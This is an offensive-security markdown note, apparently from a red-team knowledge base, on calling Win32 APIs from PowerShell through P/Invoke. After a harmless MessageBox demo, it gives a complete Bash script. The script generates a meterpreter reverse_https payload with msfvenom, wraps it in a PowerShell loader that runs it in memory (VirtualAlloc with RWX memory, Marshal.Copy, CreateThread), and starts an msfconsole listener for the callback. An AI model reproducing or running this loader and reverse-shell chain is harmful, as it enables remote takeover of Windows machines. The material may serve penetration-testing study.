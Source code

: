 ```yaml
---
title: Executing Win32 APIs in PowerShell
tags:
  - breach
  - operations
  - win32api
  - api
  - powershell
  - execution
  - shellcode
---
```


We can't execute **Win32API** methods directly from **PowerShell**. What are
Win32API methods? We discuss them in
[[phishing-in-microsoft-office#Calling Win32API|Phishing in Microsoft Office - Calling Win32API]].
These are methods usually implemented in `.dll`s like `kernel32.dll` that you
can usually find in `C:\Windows\System32`.

We can, however, compile and execute C# (CSharp) from PowerShell, and invoke
these methods using the .NET Framework. Using
[Platform Invoke (P/Invoke)](https://learn.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke),
we can directly reference Win32API methods implemented in our target `.dll`s.

For effective translation of C# types to C/C++ types for parameters defined in
these Win32API methods, we can reference helpful documentation provided at
[pinvoke.net](https://www.pinvoke.net/). The following PowerShell script
demonstrates how to invoke **user32.MessageBox** from `user32.dll` using
**P/Invoke** and C#:

```powershell
$User32 = @"
using System;
using System.Runtime.InteropServices;

public class User32 {
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int MessageBox(IntPtr hWnd, String text,
        String caption, int options);
}
"@

Add-Type $User32

[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

### Executing shellcode in PowerShell

The following example uses the interoperability features described above to
define references to the `VirtualAlloc` and `CreateThread` methods from
`kernel32.dll` . This **Bash** script will generate a **meterpreter**
`windows/x64/meterpreter/reverse_https` payload directed to callback to a
provided `LHOST` and `LPORT`for the next stage of the meterpreter payload.

The PowerShell shellcode buffer for the meterpreter payload will be placed into
a PowerShell script that will call `VirtualAlloc` to allocate an `RWX` memory
segment within the current process. The script will proceed to call
`System.Runtime.InteropServices.Marshal` to copy the shellcode from managed
memory to unmanaged memory - copying our shellcode to the newly created buffer
from the previous `VirtualAlloc` call. Finally, we call `CreateThread` providing
an address to our shellcode payload memory segment to gain shellcode execution.

After generating our PowerShell payload, we kick off an `msfconsole` session to
listen for our meterpreter payload callback:

```bash
#!/bin/bash

set -ex -o pipefail

MSFPAYLOAD="windows/x64/meterpreter/reverse_https"
MSFCONSOLE=$(which msfconsole)
MSFVENOM=$(which msfvenom)


msfvenom() {
    PAYLOAD=$($MSFVENOM \
        -p $MSFPAYLOAD \
        LHOST=$LHOST \
        LPORT=$LPORT \
        EXITFUNC=thread \
        -f ps1 2>/dev/null)
}


generate_powershell() {
    tee payload.ps1 << EOF
\$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type \$Kernel32

$PAYLOAD

\$size = \$buf.Length

[IntPtr]\$addr = [Kernel32]::VirtualAlloc(0, \$size, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy(\$buf, 0, \$addr, \$size)

\$thandle=[Kernel32]::CreateThread(0, 0, \$addr, 0, 0, 0)

[Kernel32]::WaitForSingleObject(\$thandle, [uint32]"0xFFFFFFFF")
EOF
}

listen() {
    $MSFCONSOLE \
        -q \
        -x "use multi/handler; \
            set payload $MSFPAYLOAD; \
            set LHOST $LHOST; \
            set LPORT $LPORT; \
            exploit"
}


LHOST=$1
LPORT=$2

msfvenom
generate_powershell
listen
```
